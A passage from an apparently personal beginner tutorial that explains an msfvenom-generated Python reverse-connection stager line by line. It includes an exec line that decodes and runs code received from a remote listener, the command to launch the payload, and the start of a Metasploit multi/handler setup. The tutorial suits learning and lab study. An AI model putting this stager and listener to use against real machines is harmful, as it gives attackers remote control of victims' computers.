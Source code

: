 	d+=s.recv(l-len(d))</code></pre><p id="d2bb78c1-7355-4d6e-9ef7-a46dc3b09c52" class="">while the length of the data in variable d is less than the value of l.</p><p id="e91981f4-65e6-4a06-9a27-9b542a1ffa3b" class=""> Keep adding to <mark class="highlight-teal">d</mark> the data from the server that is the difference between <mark class="highlight-teal">l </mark>and the length of data in d. To make sure that we get all the data I guess.</p><p id="9656392a-39a6-470c-a432-09dfeca3ca6c" class="">
</p><pre id="fdebf375-a915-401a-81f3-91cd561d10fb" class="code"><code>exec(zlib.decompress(base64.b64decode(d)),{&#x27;s&#x27;:s})</code></pre><p id="55976956-ba2f-4835-ab09-f8d5297ef730" class="">exec takes a python code inside of a string and runs it</p><p id="63330ca0-6faf-4f9c-97da-beac2b13924b" class="">In this line we are going to work inside out.</p><ol type="1" id="228b2c92-9637-4806-9bd8-75ddbbc8ad5c" class="numbered-list" start="1"><li>Decode the data in <mark class="highlight-teal">d </mark>from base64</li></ol><ol type="1" id="ab890cbd-d7c6-429b-890f-3bec43e0a982" class="numbered-list" start="2"><li>Decompress it</li></ol><ol type="1" id="6c1ba3ca-d192-489d-a8c5-11bc2eae510c" class="numbered-list" start="3"><li>Run it</li></ol><p id="995eef81-9018-41f5-aadb-94f15d515c4a" class="">
</p><h2 id="55527807-1146-409c-a68c-02e6457295b1" class="">Running the payload</h2><p id="ca896d89-d927-4a7f-b592-92df9c9c08e5" class="">
</p><p id="35f57fd8-54e9-4bdb-8316-2389b92b8f9d" class="">Lets try to test if the payload works!</p><p id="07230daf-145e-45c6-8702-964e0c0a6fda" class="">
</p><p id="c232bafe-0d36-443a-91d5-6b696a0816a2" class="">I did this by creating a python file on my computer (Just create a file with the extention of .py)</p><p id="aca83c15-efbf-4710-878a-aca7179b1ce7" class="">
</p><p id="b6a32738-ce08-4967-a713-89475416abb3" class="">Pasted in the code that MSFVENOM generated. And saved it</p><p id="77109714-72f4-4c92-b8b1-ae654263f477" class="">and then I launched it. </p><pre id="d031cc6a-5c02-47ae-83ba-2586439ad526" class="code"><code>python payload.py</code></pre><p id="9ba28ab8-3a7c-44a9-b5da-072ffb244fa9" class="">Im using Python to run the Python program.</p><figure id="00ae9f39-11ca-47ac-82a1-e0c7eb963cd1" class="image"><a href="/assets/Gaining%20co%20b8870/Screen_Shot_2021-10-14_at_3.09.24_PM.png"><img style="width:1140px" src="/assets/Gaining%20co%20b8870/Screen_Shot_2021-10-14_at_3.09.24_PM.png"/></a></figure><p id="55e3c267-9156-4a08-90ea-5fb2ccd8a708" class="">But, its kinda stuck there and not doing anything?</p><p id="3192d267-c247-4eb5-91c0-4cf1e7aef70c" class="">
</p><p id="98689352-8027-4d0b-a775-5bca1051eb06" class="">Heres why, the payload gets information from the server/listener. And we haven&#x27;t set that up yet</p><p id="d076319d-f03c-4d5f-a836-4ed9fcbbbe16" class="">
</p><h1 id="29e3ba89-8882-454a-bc6d-d6eed3dc3518" class="">Start the listener</h1><p id="70908c0f-25fc-4467-8d8a-a89aca21894f" class="">
</p><p id="47517586-a08d-4efd-99ab-8c1935c881f5" class="">First off, remember how I mentioned the target computer needs to connect to us? Well, we LISTEN for that signal and then are able to connect. That&#x27;s why its called a listener, it waits for the TARGET to reach out.</p><p id="72132c5a-36e8-4b41-8d58-d1fcc6a88cde" class="">
</p><p id="3ecd2805-80dd-4199-9b6a-028aadfec7cb" class="">First we need to start up msf console</p><figure class="block-color-yellow callout" style="white-space:pre-wrap;display:flex" id="9f5dcade-ed5e-481c-b798-2d4592a7ede1"><div style="font-size:1.5em"><span class="icon">🔬</span></div><div style="width:100%">Metaploit installs on different locations. </div></figure><pre id="1fa6ace1-e07f-4677-93fe-fbf95ff69268" class="code"><code>./msfconsole</code></pre><figure id="82b97427-2892-41f7-9b12-343b5d77e04d" class="image"><a href="/assets/Gaining%20co%20b8870/Screen-Recording-2021-10-14-at-3.24.59-PM.gif"><img style="width:1140px" src="/assets/Gaining%20co%20b8870/Screen-Recording-2021-10-14-at-3.24.59-PM.gif"/></a></figure><p id="26b5399b-1836-47e4-bbf8-f1bf94894742" class="">
</p><p id="386de9a9-cbd3-4d4d-974b-1e40850ebd64" class="">Once we are in MSFCONSOLE. We want to use exploit/multi/hanlder</p><p id="c8aea75d-98a9-4e7e-a35e-43457ea4a5c8" class="">